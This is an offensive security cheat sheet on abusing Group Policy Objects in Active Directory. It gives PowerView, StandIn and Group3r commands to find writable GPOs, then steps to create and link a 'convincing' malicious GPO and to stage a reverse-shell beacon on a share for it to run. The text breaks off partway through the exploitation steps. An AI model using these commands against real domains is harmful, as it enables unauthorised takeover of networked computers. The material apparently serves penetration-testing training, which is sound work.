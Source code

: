 # __Active Directory misconfiguration abuse & vulnerability exploitation__
>Author: Pieter Miske
---
### __Group Policy Object abuse:__
Group Policy is the central repository in a forest or domain that controls the configuration of computers and users\. Group Policy Objects \(GPOs\) are sets of configurations that are applied to Organisational Units \(OUs\)\. Any users or computers that are members of the OU will have those configurations applied\.

#### _GPO enumeration:_
- Scan and find vulnerable GPO configurations\. The top section of the output shows if it is an GPO and some basic info\. The 2nd nested section shows its settings and if its still in use \(not morphed\)\. The 3rd nested section \(if any\) shows if it vulnerable, its severity level and reason \([Group3r](https://github.com/Group3r/Group3r)\): `.\Group3r.exe -s`
- List all GPO's \([StandIn](https://github.com/FuzzySecurity/StandIn)\): `StandIn.exe --gpo`
- Check which AD objects have some sort of write privilege over the target GPO \(StandIn\): `StandIn.exe --gpo --filter "<name single GPO>" --acl`
- Return all GPOs that modify local group memberships through Restricted Groups or Group Policy Preferences \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)\): `Get-DomainGPOLocalGroup | select GPODisplayName, GroupName`
- Return all GPO's or GPO objects that apply to a specific machine \(PowerView\): `Get-DomainGPO (-ComputerIdentity <FQDN target computer> -Properties DisplayName) | sort -Property DisplayName`
- Identify objects that can create new GPO's and link them to an OU:
	- 1\. Show the Security Identifiers \(SIDs\) of principals that can create new GPOs in the domain \(PowerView\): `Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`
	- 2\. Check if one of the returned principals can not only create but also write to the GP\-Link attribute on OUs \(PowerView\): `Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl`
	- 3\. Translate SID to account name \(PowerView\): `ConvertFrom-SID <SID>`
	- 4\. Based on the returned 'ObjectDN' 'OU' value, get a list of the machines to which it applies \(PowerView\): `Get-DomainComputer | ? { $_.DistinguishedName -match "OU=<value>" } | select DnsHostName` 
- Identify objects who can modify excisting GPO's:
	- 1\. Return any GPO in the domain, where a 4\-digit RID \(eliminating the default 512, 519\) has WriteProperty, WriteDacl or WriteOwner \(PowerView\): `Get-DomainGPO | Get\-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`
	- 2\. Translate SID to account name \(PowerView\): `ConvertFrom-SID <SID>`
	- 3\. Resolve the ObjectDN to identify which object the user/group can modify \(PowerView\): `Get-DomainGPO -Name "{<ObjectDN value>}" -Properties DisplayName`

#### _GPO exploitation:_
>Remote Server Administration Tools \(RSAT\) can only be used from a Windows Server. 
- 1\. \(optional\) If you can create a new GPO: 
	- 1\. Check if RSAT is already present on the current system \(no output means not installed\): `Get\-Module -List -Name GroupPolicy | select -expand ExportedCommands`
	- 2\. \(optional\) if it's not present, install it on the Windows server \(requires local admin privs\): `Install-WindowsFeature –Name GPMC`
	- 3\. Create a new GPO and immediately link it to the target OU: `New-GPO -Name "<convincing new GPO name>" | New-GPLink -Target "OU=<target OU name>,DC=dev,DC=cyberbotic,DC=io"`
- 2\. Create a reverse shell type beacon \(e\.g\. CS Pivot beacon\) and upload it to a network share that is accessible by every authenticated domain account \(not needed if using payload option 3 below\)
- 3\. Modify the \(created\) GPO and let it run a command/payload: